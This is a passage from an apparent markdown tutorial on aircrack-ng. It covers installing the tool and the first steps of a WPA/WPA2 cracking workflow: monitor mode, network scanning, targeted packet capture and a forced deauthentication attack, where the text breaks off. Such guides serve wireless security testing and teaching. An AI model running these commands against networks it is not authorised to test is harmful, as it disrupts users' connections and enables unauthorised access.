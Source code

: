 ```bash
sudo pacman -S aircrack-ng
```

### ✅ From Source

```bash
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
autoreconf -i
./configure
make
sudo make install
```

---

## 🧾 Typical Workflow for WPA/WPA2 Cracking

### 1. Enable Monitor Mode

```bash
airmon-ng start wlan0
```

➡️ This creates `wlan0mon` for packet capture.

---

### 2. Scan Networks

```bash
airodump-ng wlan0mon
```

➡️ Shows BSSID, ESSID, channel, encryption, etc.

---

### 3. Target Specific Network

```bash
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```

* `-c`: channel
* `--bssid`: target AP
* `-w`: file to save packets

---

### 4. Force Deauthentication

```bash
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c XX:YY:ZZ:... wlan0mon
```
